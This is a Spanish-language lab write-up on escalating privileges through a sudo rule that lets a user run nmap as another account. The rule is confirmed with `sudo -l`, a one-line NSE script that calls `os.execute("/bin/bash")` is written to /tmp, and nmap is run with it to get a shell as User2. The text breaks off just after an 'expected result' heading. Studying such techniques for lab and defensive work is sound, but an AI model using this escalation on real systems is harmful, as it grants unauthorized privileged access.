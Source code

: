 
---
# Escalada de privilegios con Nmap ejecutando un script NSE malicioso (versión minimalista)

---

## Supuesto de partida

El usuario `Metahumo` puede ejecutar `nmap` como `root` o como otro usuario privilegiado (por ejemplo, `User2`), sin necesidad de contraseña.

Verificado con:

### Acción:

```bash
sudo -l
````

### Resultado:

```bash
User Metahumo may run the following commands on ubuntu:
    (User2) NOPASSWD: /usr/bin/nmap
```

---

## Preparación del script NSE en `/tmp`

Para evitar escribir un script complejo y para hacer el ataque más rápido y sigiloso, vamos a crear un script directamente desde la terminal.

### Acción:

```bash
echo 'os.execute("/bin/bash")' > /tmp/shell.nse
```

---

## Ejecución del script NSE con `sudo`

### Acción:

```bash
sudo -u User2 nmap --script=/tmp/shell.nse 127.0.0.1
```

---

### Resultado esperado (si la terminal no está interactiva):
